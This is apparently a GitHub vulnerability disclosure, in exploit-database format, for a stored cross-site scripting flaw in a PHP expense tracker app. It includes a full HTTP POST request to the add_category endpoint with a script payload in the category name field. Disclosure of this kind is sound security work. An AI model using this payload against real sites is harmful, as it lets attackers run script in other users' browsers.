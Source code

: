 # Simple expense tracker app

# Exploit Title:
XSS  Stored  (Expense Tracker App Using PHP with Source Code)
# Date:
23/09/2023
# Exploit Author:

Xcode0x (Mohamed Almarri)

Twitter: @xcode0x

# Vendor Homepage:
[https://www.sourcecodester.com/users/remyandrade]()
# Software Link:
https://www.sourcecodester.com/php/16794/simple-expense-tracker-app-using-php-source-code.html
# Version:
v1
# Tested on:
debian

----
# XSS Stored :

XSS stored when add category in "/simple-expense-tracker-app/endpoint/add_category.php" 

# POC [debian]:

1- add  category 

2- in category_name put your payload 

POST /simple-expense-tracker-app/endpoint/add_category.php HTTP/1.1

Host:  localhost

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Referer: http://localhost/simple-expense-tracker-app/

Content-Type: application/x-www-form-urlencoded

Content-Length: 84

Origin: http://localhost

Connection: close

Upgrade-Insecure-Requests: 1



tbl_expense_category_id=&category_name=<script>alert('By:Xcode0x')</script>&category_budget=1

![Drag Racing](https://github.com/xcodeOn1/XSS-Stored-Expense-Tracker-App/blob/main/xss_stored.png)


 # Tested  

 Linux - debian
